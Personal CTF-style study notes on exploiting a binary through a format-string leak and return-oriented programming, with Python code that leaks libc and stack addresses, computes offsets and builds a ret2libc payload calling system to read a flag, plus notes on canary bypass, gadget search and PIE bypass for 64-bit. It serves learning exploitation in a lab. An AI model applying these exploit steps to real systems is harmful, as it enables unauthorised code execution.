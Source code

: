 
Return Oriented programming

32bits

## Start

```shell
checksec
```

![[Pasted image 20231127212408.png]]

## Test local

### Find leak of the libc

File : bfprintf.py => print all the addr

```python
for i in range(450):  
    payload = f'%{i}$p'.encode()  
    target.sendline(payload)  
    res = target.recvline()  
    print(f"{i}: {res}")
```

Find an addresse that correspond to the libc 

![[Pasted image 20231115212800.png]]

In gdb : ```info proc map```

![[Pasted image 20231115212903.png]]

=> offset 2 point to the libc 

Then we will search the correspond element of the offset 2
in gdb ```x/10i addr```

![[Pasted image 20231115213232.png]]

We now know that it correspond to the _IO_2_1_stdin

we will now look of the offset in IDA of the _IO_2_1_stdin, system and exit

locally in my libc : 
```python
off_system = 0x0047CB0  
off_exit = 0x00DCCB0  
addr_stdio = 0x00226620
```

To calculate the base addr of the libc and the function system and exit within : 
```python
libc_base_addr = leak_addr - addr_stdio
memory_system_addr = libc_base_addr + off_system  
memory_exit_addr = libc_base_addr + off_exit
```

leak addr => offset 2 
```python
payload = b'%2$p|'  
target.sendline(payload)  
res = target.recvline()  
print(res)  
res = res.decode().strip("\n").split("|")  
print(res)  
leak_addr = res[0]  
leak_addr = int(leak_addr,16)  
```

### Get an addr in the stack
=> get the offset between the addr we find and the start of the buffer

File : bfprintf.py => print all the addr

```python
for i in range(450):  
    payload = f'%{i}$p'.encode()  
    target.sendline(payload)  
    res = target.recvline()  
    print(f"{i}: {res}")
```

=> look of the addr and find one that correspond of the stack 
In gdb : ```info proc map```

![[Pasted image 20231115214902.png]]

we will launch the script remotely and locaaly to see thet diff in the offset - they have to be the same in the two
here at the offset 263 we found 0x80493a3 that corresponf to the return addr of handle, we see just above 0xffffd098 addr that point to the stack
addr leak => 0xffffd098

Then to get the offset we will search the addr of the start of the buffer in gdb 

breakpoint in fgets where the first arg is the buffer (fgets)
![[Pasted image 20231115214556.png]]



![[Pasted image 20231115214657.png]]

```python
buf_addr = (leak_stack - 0x448)
```

```python
payload = b'%2$p|%262$p'  
target.sendline(payload)  
res = target.recvline()  
print(res)  
res = res.decode().strip("\n").split("|")  
print(res)  
leak_addr = res[0]  
leak_addr = int(leak_addr,16)  
leak_stack = int(res[1],16)
```

### Calculate the lengh of the buffer

in ida count the push, ..
![[Pasted image 20231115220334.png]]

1028+4+4 = 1036 = 0x40C


we have now all the offset

```python
buf = b'n'  
buf += b'A' * (0x40C - len(buf))  
  
  
# get addr of buffer in gdb here 0xffffcc50 and addr leak in 262 0xffffd098  
buf_addr = (leak_stack - 0x448) # ebp - 0x408  
sys_argument_addr = buf_addr + 0x40C + 3 * 4    
  
buf += p32(memory_system_addr) # system  
buf += p32(memory_exit_addr) # exit  
buf += p32(sys_argument_addr) # system argument addr   
buf += b"          cat flag\0" # cat flag str
```


### We now have to change the offset in the libc of the remote server and we get the flag

![[Pasted image 20231115220601.png]]

# 64 bits

### Libc like 32


### Get the canary

to the return addr of handle in 

![[Pasted image 20231116201900.png]]

here 149 
usually the canary finish by \0 then it is at 147

#### Canary protection

At start of the program
Uniq value that not change

#### Bypass canary

- Read value of the canary (vulnerability that allows us to read it)
- Bad entropy
- Brute Force byte by byte : with fork by example if process crash then not good byte but if not good byte of the canary => can pass to the others byte 

## Get the gadget

rp-lin-gcc/rp-lin -f rop/rop200/exo -r3 --colors | grep pop
![[Pasted image 20231116202059.png]]

we will take 4c3
![[Pasted image 20231116213647.png]]


## Bypass PIE

=> get addr of pie 
```info proc map``` to know the exo addr load by the binary
![[Pasted image 20231116212822.png]]


looks with the format string an add in the stack 
![[Pasted image 20231116212716.png]]

verify with gdb the addr 
![[Pasted image 20231116212847.png]]

get the offset with ida of the addr in the exo
![[Pasted image 20231116212915.png]]

Finally make the calcul : 
```pie_base_addr = leak_pie - addr_start```



